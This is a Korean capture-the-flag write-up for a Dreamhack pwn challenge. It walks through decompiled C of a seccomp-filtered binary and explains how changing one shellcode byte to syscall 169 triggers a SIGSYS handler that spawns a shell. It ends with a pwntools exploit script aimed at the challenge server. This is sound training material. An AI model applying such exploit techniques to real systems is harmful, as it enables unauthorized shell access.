




## Explain

모든 보호기법이 적용되어 있다.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void (*exit)(void); // rax
  unsigned __int8 modifybuf; // [rsp+2h] [rbp-BEh] BYREF
  char v6; // [rsp+3h] [rbp-BDh] BYREF
  int n; // [rsp+4h] [rbp-BCh] BYREF
  void (*exitbuf)(void); // [rsp+8h] [rbp-B8h]
  struct sigaction s; // [rsp+10h] [rbp-B0h] BYREF
  _BYTE modify[11]; // [rsp+ADh] [rbp-13h]
  unsigned __int64 v11; // [rsp+B8h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  memset(&s, 0, sizeof(s));
  s.sa_handler = (__sighandler_t)sigsys_handler;
  s.sa_flags = 4;
  if ( sigaction(31, &s, 0) == -1 )
  {
    perror("sigaction");
    return 1;
  }
  else if ( (unsigned int)((__int64 (*)(void))install_seccomp_filter)() )
  {
    fwrite("Failed to install seccomp filter\n", 1u, '!', stderr);
    return 1;
  }
  else
  {
    *(_QWORD *)modify = 0x3CB0C03148FF3148LL;
    *(_DWORD *)&modify[7] = 0x50F3C;
    printf("1. pass 2. modify: ");
    __isoc23_scanf("%d", &n);
    if ( n == 2 )
    {
      printf("> ");
      __isoc23_scanf("%hhu %hhu", &modifybuf, &v6);
      if ( modifybuf > '\n' )
      {
        puts("Invalid");
        ::exit(1);
      }
      modify[modifybuf] = v6;
    }
    else if ( n != 1 )
    {
      puts("Invalid");
      ::exit(1);
    }
    exitbuf = (void (*)(void))mmap(0, '\v', 7, 34, -1, 0);
    if ( exitbuf == (void (*)(void))'\xFF' )
    {
      perror("mmap");
      return 1;
    }
    else
    {
      exit = exitbuf;
      *(_QWORD *)exitbuf = *(_QWORD *)modify;
      *(_DWORD *)((char *)exit + 7) = *(_DWORD *)&modify[7];
      exitbuf();
      return 0;
    }
  }
}
```
문제에는 다음과 같은 조건이 설정되어 있다.
**정상적으로 `return 0`을 하려면?** `exitbuf()` 함수가 호출된 후 종료되지 않고 다시 `main` 함수로 리턴해야 한다.
`modifybuf`에 `%hhu %hhu` 값을 넣으면 `modify[]`안에 그 값이 들어가고, n에 2을 입력했을 때 `\xFF`가 아닌 상태일 때라는 조건을 충족해야지 `exitbuf`가 modify 버퍼가 되면서 return 0이 된다는 내용으로 추측했다.




"지금 실행하려는 시스템 콜 번호가 `169`번이니?"

 **YES (169번 맞음):** `SECCOMP_RET_TRAP` 
 -> **비상벨 울림! (SIGSYS 발생 -> 핸들러 실행 -> 쉘 획득)**

**NO (169번 아님):** `SECCOMP_RET_ALLOW` 
-> **그냥 통과.** (SIGSYS 발생 안 함)

우리의 목표는 `sigsys_handler`를 실행시키는 것이다. 그러려면 필터가 Trap을 발동시키는 **유일한 번호인 `169`를 입력해야 한다.


## Payload
```python
from pwn import *
context.binary = './main'

if args.REMOTE:
    p = remote('host3.dreamhack.games', 12436)
else:
    p = process('./main')

p.sendlineafter(b': ', b'2')
p.sendlineafter(b'> ', b'7 169')

p.interactive()
```


## Solved

너무 쉽게 풀려서 조금 머쓱하다